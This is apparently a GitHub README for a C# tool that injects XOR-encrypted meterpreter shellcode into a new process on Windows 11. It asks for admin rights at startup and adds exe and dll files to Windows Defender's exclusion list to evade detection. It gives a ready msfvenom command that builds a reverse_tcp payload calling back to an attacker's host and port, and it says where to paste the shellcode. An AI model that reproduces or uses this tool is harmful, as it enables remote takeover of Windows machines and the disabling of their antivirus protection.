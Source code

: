 # get-meterpreter-on-windows 11

for information visit https://youtu.be/HrBr6uKGCxs and watch my video

This is a csharp program to inject xor encrypted shellcode into a new process.
This is a modified code(the original code is from https://github.com/chr0n1k/AH2021Workshop/blob/master/Labs/Lab4:%20Simple%20process%20injection/program1.cs) that asks for admin rights at program startup and then adds exe and dll files to the exclusion list of windows defender to get a fully functional meterpreter session without have to worry about uploading stages won't work.

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IPADRESS> lport=<PORTNUMBER> -f csharp --encrypt xor --encryptkey ARICAHACKON



replace bytesize and shellcode in line 162:

byte[] xorshellcode = new byte[BYTESIZE] {SHELLCODE};
